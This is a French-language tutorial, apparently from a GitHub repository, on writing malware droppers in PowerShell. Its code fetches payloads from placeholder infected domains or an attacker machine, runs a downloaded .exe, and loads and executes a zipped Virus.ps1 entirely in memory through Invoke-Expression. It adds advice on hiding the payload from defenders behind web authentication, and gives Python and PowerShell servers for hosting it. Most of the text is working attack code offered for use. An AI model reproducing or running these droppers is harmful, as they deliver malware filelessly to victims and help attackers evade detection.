 
La plupart des malwares ne sont pas distribué en un seul fichier et fonctionne en 2 étages :

# __Dropper___

Afin **télécharger** et d'**éxecuter** le malware **en mémoire**, on va faire éxecuter un **dropper** qui va faire appel à un domaine infecté pour télécharger notre payload.

Notez qu'il est conseillé de mettre une authentification web au téléchargement dans le but d'éviter une collecte par des blueTeamers qui aurai vu passer le flux sans avoir accès au code du dropper.

### Exemple

Avec powershell ce code ressemblerai à cela :

```powershell
$wvh = new-object net.webclient;
$nsh='http://<InfectedDomain1>/trkldl@http://<InfectedDomain2>/adCa0ad@http://<InfectedDomain3>/bl4bl4c4r'.split("@");
$onj = '453';
$dxo=$env:temp+'\'+$onj+'.exe';
foreach($wzi in $nsh){
	try{
		$wvh.downloadfile($wzi, $dxo);
		if((get-item $dxo).length -ge 80000){
			invoke-item $dxo;
			break;
		}	
	}catch{}
}
```

Pour résumer ce payload va :
- **Creer un objet pour telecharger**
- **Faire une liste des liens où trouver le malware**
- **Télécharger** puis **executer** le premier fichier qui aura une taille > 80000

## __Telechargement__

Windows 10 et + :

```powershell
Invoke-WebRequest -Uri 'http://<MACHINE_IP>:8000/Virus.zip' -outfile "virus.zip";
```

Windows 7 et - :

```powershell
# Creation d'un nouveau client web
$webClient = [System.Net.WebClient];

# Telechargement des donnes dans une variable
$zip = $webClient.DownloadData('http://<MachineIP>:8000/Virus.zip');
```


## __Extraction__

Une fois l'étape précédente effectué, le ZIP se trouve en mémoire dans la variable $zip. On doit donc les extraire en restant en mémoire.

```powershell
# Chargement de la bibliothèque System.IO.Compression
[System.Reflection.Assembly]::LoadWithPartialName('System.IO.Compression') | Out-Null;

# Ouverture du fichier 'Virus.ps1' dans l'objet zip en mémoire
$entry = (New-Object System.IO.Compression.ZipArchive(New-Object System.IO.MemoryStream (, $zip))).GetEntry('Virus.ps1');

# Décompression du fichier
$b = [byte[]]::new($entry.Length);
$entry.Open().read($b, 0, $b.Length);

# Conversion en texte UTF8
$code = [System.Text.Encoding]::UTF8.GetString($b);
```


## __Execution__

Une fois le payload stocké en mémoire il ne reste plus qu'à l'éxécuter.

```powershell
$code | Invoke-Expression
```


## __Exemple_Memory_Dropper___

En combinant tout cela on peut faire un dropper fonctionnant exclusivement dans la mémoire :

```powershell
$webClient = [System.Net.WebClient];
$zip = $webClient.DownloadData('http://<MACHINE_IP>:8000/Virus.zip');
[System.Reflection.Assembly]::LoadWithPartialName('System.IO.Compression') | Out-Null;
$entry = (New-Object System.IO.Compression.ZipArchive(New-Object System.IO.MemoryStream (, $zip))).GetEntry('Virus.ps1');
$b = [byte[]]::new($entry.Length);
$entry.open().Read($b, 0, $b.Length);
$code = [System.Text.Encoding]::UTF8.GetString($b);
$code | iex;
```


# __Downloading_Server___

Pour télécharger notre payload depuis la cible, on doit mettre en place un serveur HTTP.

## Python

On peut utiliser python qui nous crée un server web très facilement.

```shell
$ python3 -m http.server
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
```

## Powershell

Si l'on veut rester en powershell on peut utiliser ce code :

```powershell
Function New-SimpleHTTPListener {
	# Port en écoute
	Param(
		[Parameter[]] [Int] $Port = 8000
	)

	# Par défaut en écoute sur localhost
	Begin{
		$listener = New-Object System.Net.HttpListener;
		$prefix = "http://localhost:$Port";
		$listener.Prefixes.Add($prefix);	
	}

	Process {
		try{
			# Demarrer le serveur
			$listener.Start();
			$pwd = Get-Location;

			# Attendre les connexions
			while($listener.IsListening){
				$context = $listener.GetContext();

				# terminer le serveur si l'url demandé est '/quit'
				if($context.Request.HttpMethod -eq 'GET' -and $context.Request.RawUrl -eq '/quit'){
					$listener.Close();
					break;
				}

				# Préparer la réponse
				$HTTPresponse = $context.Response;
				$HTTPresponse.StatusCode = "200";
				$HTTPresponse.Headers.Add("Content-Type", "text/text");

				# Lire le fichier demandé par l'URL
				$requestUrl = $context.Request.Url.OriginalString;
				$data = [System.Text.UTF8Encoding]::UTF8.GetBytes([System.IO.File]::ReadAllText(Join-Path "$pwd" ($RequestUrl.split('/')[-1])));

				# Renvoyer le contenu du fichier en réponse
				$HTTPresponse.ContentLength64 = $data.Length;
				$output = HTTPresponse.OutputStream;
				$output.Write($data, 0, $data.Length);

				# Fermer la connexion
				$output.Close();
			}
		}catch{
			Write-Host "erreur : $_";
		}Finally{
			Write-Host "Fin d'éxécution : $_";
			$listener.stop();
		}
	}

	End {
	
	}
}
```